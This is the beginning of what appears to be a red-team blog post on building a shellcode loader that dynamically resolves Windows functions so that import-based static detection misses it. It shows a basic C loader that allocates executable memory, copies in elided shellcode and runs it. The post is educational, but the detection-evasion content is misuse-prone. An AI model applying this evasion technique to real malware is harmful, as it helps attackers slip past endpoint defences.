 ```yaml
---
layout: post
title: Loader Implementation - Dynamically resolving functions (Part 2)
author: Kolja
categories: [redteam]
tags: [redteam,malware]
---
```


In this post, we discuss dynamically resolving functions, which helps avoid static detections based on the functions imported by our executable.

## Disclaimer
These posts are done as a reference for myself and to gain a deeper understanding of the discussed topics by explaining them in a blog post. 

The techniques used here are not novel and were documented by other people before. Therefore the use of these posts for threat actors will likely be minimal. Nonetheless, I decided against releasing a full PoC implementation and will instead only provide code snippets as part of the posts. All of the credits should go to the people, that did the original research on the techniques used. 

## Imports
The functions our executable uses are by default easily viewable in the imports section of our executable. The following code could be used in a basic loader:
```
#include <stdio.h>
#include <windows.h>

int main() {
  unsigned char shellcode[] = [...];
  unsigned char* base_address = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(base_address, shellcode, sizeof(shellcode));
  ((void(WINAPI*)(void))base_address)();
}
```

After compilation, we can view the imports of our executable e.g. using [PE-bear](https://github.com/hasherezade/pe-bear-releases):